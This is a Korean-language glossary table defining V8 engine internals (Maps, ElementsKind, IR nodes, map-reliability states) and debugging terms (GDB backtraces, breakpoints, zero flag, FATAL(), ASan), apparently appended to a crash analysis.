| Map(V8 내부) | 객체의 구조·ElementsKind 등에 관한 내부 메타데이터 |
| ElementsKind | 배열 원소의 저장 표현 분류 |
| PACKED / HOLEY | 빈 원소 슬롯이 없는 배열 / 빈 슬롯이 있을 수 있는 배열 |
| SMI | V8의 작은 정수 표현 |
| FixedDoubleArray | Double 원소의 전용 저장 구조 |
| FixedArray | 태그된 값/객체 참조 등을 저장하는 구조 |
| JSArray | V8의 JavaScript 배열 객체 |
| Transition | 내부 표현이나 Map이 다른 유형으로 바뀌는 과정 |
| HeapNumber | V8 힙에 저장하는 숫자 객체 표현 중 하나 |
| IR | 컴파일러가 연산을 표현하는 중간 표현 |
| Parameter Node | 함수 인수를 나타내는 IR 노드 |
| Aliasing | 서로 다른 이름이나 노드가 같은 실제 객체를 참조하는 관계 |
| Effect Chain | 부수효과가 있는 연산의 의존·순서를 나타내는 연결 |
| `IsSame()` | 두 IR 노드를 같은 것으로 볼 수 있는지 검사하는 로직 |
| `kReliableMaps` | Map 추론 결과를 신뢰 가능한 상태로 취급 |
| `kUnreliableMaps` | Map 추론 결과를 안전하게 신뢰할 수 없는 상태로 취급 |
| `kNoMaps` | 추론에 사용할 Map 정보를 얻지 못함 |
| Backtrace | 함수 호출이 어떻게 이어졌는지 보여주는 호출 스택 |
| Breakpoint | 특정 코드 위치에서 실행을 잠시 멈추는 설정 |
| `<optimized out>` | 컴파일러 최적화 등으로 GDB가 해당 값을 보여주지 못하는 상황 |
| Zero Flag | 비교/검사 결과에 따라 설정되는 CPU 상태 플래그 |
| `je` | Zero Flag가 1일 때 이동하는 조건 분기 |
| `FATAL()` | 치명적 내부 오류를 보고하는 매크로 |
| ASan | 메모리 오염 등을 탐지하는 AddressSanitizer. **이번 분석에서는 별도 ASan 빌드를 수행하지 않음** |

---

